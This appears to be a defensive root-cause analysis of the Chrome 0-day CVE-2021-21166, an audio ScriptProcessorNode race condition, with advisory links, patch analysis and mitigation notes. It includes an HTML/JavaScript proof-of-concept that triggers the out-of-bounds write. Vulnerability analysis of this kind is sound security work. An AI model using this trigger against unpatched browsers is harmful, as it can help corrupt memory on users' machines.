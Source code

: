 # CVE-2021-21166: Chrome Object Lifecycle Issue in Audio
*Clement Lecigne, Google Threat Analysis Group* 

## The Basics

**Disclosure or Patch Date:** 2 March 2021

**Product:** Google Chrome

**Advisory:**
https://chromereleases.googleblog.com/2021/03/stable-channel-update-for-desktop.html

**Affected Versions:**  89.0.4389.69 and previous

**First Patched Version:** 89.0.4389.72

**Issue/Bug Reports:**

* https://bugs.chromium.org/p/chromium/issues/detail?id=1174582
* https://bugs.chromium.org/p/chromium/issues/detail?id=1181341
* https://bugs.chromium.org/p/chromium/issues/detail?id=1177465

**Patch CL:**

* https://chromium.googlesource.com/chromium/src/+/60987aa224f369fc0ea38c56e498389440921356
* https://chromium.googlesource.com/chromium/src/+/b9e60ddc7606689e508f295077656389380288ba

**Bug-Introducing CL:** N/A

**Reporter(s):** 
Alison Huffman of Microsoft Browser Vulnerability Research and Clement Lecigne of
Google Threat Analysis Group 

## The Code

**Proof-of-concept:**

From [crbug/1174582](https://bugs.chromium.org/p/chromium/issues/detail?id=1174582) by Alison Huffman of Microsoft Browser Vulnerability Research:

```html
<html>
<body>
    <script type="text/javascript">
      function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms))
      }

      async function run() {
          let array = new Float32Array(Array(256));
          let context = new AudioContext();
          let node = context.createScriptProcessor();
          let source = context.createBufferSource();
          let buffer = context.createBuffer(1, 1024, context.sampleRate);
          let data = buffer.getChannelData(0);
          data.set(array);
          source.buffer = buffer;
          source.loop = true;
          source.connect(node);
          node.connect(context.destination);
          let inputBuffer = null;
          node.onaudioprocess = (event) => {
              inputBuffer = event.inputBuffer.getChannelData(0);
              node.onaudioprocess = undefined;
          }
          source.start();
          await sleep(500);
          while(true) {
            // not thread safe on non-shared arrays
            inputBuffer.sort()
          }
      }
    </script>
    <h1><a href="#" onclick="run()">Click Me!</a></h1>
    </body>
</html>
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** Yes

## The Vulnerability

**Bug class:** Race Condition

**Vulnerability details:**

There is a threading issue in `ScriptProcessorNode::process()` where input and
output shared buffers are accessible concurrently by other threads without proper
locking.

In the poc, `inputBuffer` is accessed concurrently from the audio thread and
from the main thread at the same time causing an out-of-bounds write during `std::sort()`.

The very same issue [affected](https://bugs.webkit.org/show_bug.cgi?id=222447)
WebKit as well. We do not have any evidence that this vulnerability was used
to target Safari users.

**Patch analysis:** 

There were two different fixes implemented to address this bug:
* Expand the scope of the existing mutex by locking the entire scope of the `Process` call within `ScriptProcessorNode`, and
* Instead of sharing the buffers across the main and audio threads, creating new AudioBuffers for each `onAudioProcess` call.

**Thoughts on how this vuln might have been found _(fuzzing, code auditing, variant analysis, etc.)_:**

**(Historical/present/future) context of bug:** 

## The Exploit

(The terms *exploit primitive*, *exploit strategy*, *exploit technique*, and *exploit flow* are [defined here](https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html).)

**Exploit strategy (or strategies):** Under analysis

**Exploit flow:** Under analysis

**Known cases of the same exploit flow:**

**Part of an exploit chain?**

This exploit was most likely chained with a sandbox escape that we did not manage to retrieve.

## The Next Steps

### Variant analysis

**Areas/approach for variant analysis (and why):**

**Found variants:**

### Structural improvements

What are structural improvements such as ways to kill the bug class, prevent the introduction of this vulnerability, mitigate the exploit flow, make this type of vulnerability harder to exploit, etc.?

**Ideas to kill the bug class:**

**Ideas to mitigate the exploit flow:**

**Other potential improvements:**

According to [this comment](https://bugs.chromium.org/p/chromium/issues/detail?id=1174582#c16), this feature was deprecated from the spec years ago. Remove the code.

### 0-day detection methods

What are potential detection methods for similar 0-days? Meaning are there any ideas of how this exploit or similar exploits could be detected **as a 0-day**?

These types of exploits are likely hard to detect generically.

## Other References
* July 2021: ["How We Protect Users From 0-Day Attacks"](https://blog.google/threat-analysis-group/how-we-protect-users-0-day-attacks) by Google's Threat Analysis Group